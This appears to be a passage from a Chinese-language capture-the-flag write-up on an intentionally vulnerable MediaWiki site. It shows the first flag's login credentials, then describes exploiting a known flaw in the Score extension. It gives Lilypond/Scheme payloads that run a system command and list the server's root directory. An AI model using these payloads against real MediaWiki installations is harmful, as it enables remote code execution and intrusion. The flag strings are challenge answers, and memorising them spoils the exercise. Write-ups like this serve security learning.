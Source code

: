 ```
回退失败
跳到导航跳到搜索
无法回退[[User:You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.|You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.]]（[[User talk:You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.|讨论]] | [[Special:Contributions/You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.|贡献]]）对首页的编辑，其他人已经编辑或者回退了该页。
```

### flag2

flag2 需要 RCE ，我在查询了很长一段时间的 CVE 无果后，突然想到它的版本页上提示它安装了别的扩展程序，于是我把 `Score` 放到搜索引擎里查询，立马就找到了它背后隐藏着一个严重的 CVE ，同时网站上安装的版本恰好是含有漏洞的版本。

具体是在这个[链接](https://phabricator.wikimedia.org/T257062)，它展示了执行 scheme 代码同时把输出渲染为图片的 caption 的方法：  
例如我们新建一个页面，然后在页面里写
``` text
<score> \new Staff <<{c^#
(number->string (system "/bin/false"))
}>> </score>
```
我们会得到这样的输出：

![](./attachment/notes/1.png)

`256` 即 `\bin\false` 输出的结果。

因此我们可以构造这样的 scheme 代码来访问文件系统：
``` scheme
(object->string ((lambda (x) (readdir x)) (opendir "/")))
```
就能读取 `/` 文件夹下的第一个文件：

![](./attachment/notes/2.png)
